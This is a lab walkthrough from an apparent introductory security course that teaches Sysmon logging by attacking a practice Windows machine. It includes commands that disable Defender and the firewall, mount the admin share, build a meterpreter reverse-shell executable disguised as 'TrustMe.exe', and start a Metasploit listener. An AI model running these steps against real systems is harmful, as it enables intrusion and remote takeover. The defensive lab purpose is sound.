




# Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let's continue by opening a **Kali** terminal

Alternatively, you can click on the **Kali** icon in the taskbar.

We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

**REMEMBER - YOUR IP ADDRESS WILL LIKELY BE DIFFERENT.**

Run the following commands to start a simple backdoor and backdoor listener: 
 
<pre>sudo su -</pre>

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:

We will need to open a **"cmd.exe"** terminal as **Administrator**.

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

You'll have to scroll down a bit until you find the **Sysmon** folder.  

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
